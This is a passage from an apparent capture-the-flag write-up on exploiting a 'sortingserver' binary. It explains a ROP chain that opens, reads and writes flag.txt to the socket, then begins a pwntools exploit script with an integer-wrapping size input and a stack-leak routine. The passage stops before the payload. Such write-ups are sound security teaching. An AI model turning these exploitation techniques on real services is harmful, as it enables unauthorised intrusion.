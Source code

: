 This chain first saves the content of the RDI register to the RBX register. Then using a `mov` instruction, I wrote the filepath of the file that we want to read, which is `flag.txt`, then proceeded to call the `open`, `read`, and `write` functions to print the contents of the flag to my connection using the saved `sockfd` value in the RBX register.

My final exploit code looks like this:
```python
from pwn import *
import time

exe = ELF("./sortingserver")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

HOST = "pwn.1nf1n1ty.team"
PORT = 30648

def conn():
    global HOST, PORT

    if args.REMOTE:
        io = remote(HOST, PORT)
    else:
        io = remote("localhost", 1337)
        
    return io


def main():

    def send_input(io, s):
        wait_time = 0.03 if not args.REMOTE else 0.5
        time.sleep(wait_time)
        io.sendline(s)


    def send_size(io, n: int):
        base = -65536
        n += base

        log.info(f"Sending size: {n}")
        io.sendlineafter(b"Enter number of elements: ", str(n).encode())


    def send_null(io):
        log.info(f"Sending null byte...")
        send_input(io, b'\x00')


    def leak_stack(max_offset):
        io = conn()

        n = (max_offset // 4) + 2
        send_size(io, n)

        for i in range(n):
            send_null(io)

        io.recvuntil(b"Result: ")
        leak = io.recvline().decode().strip().split(' ')
        io.close()

```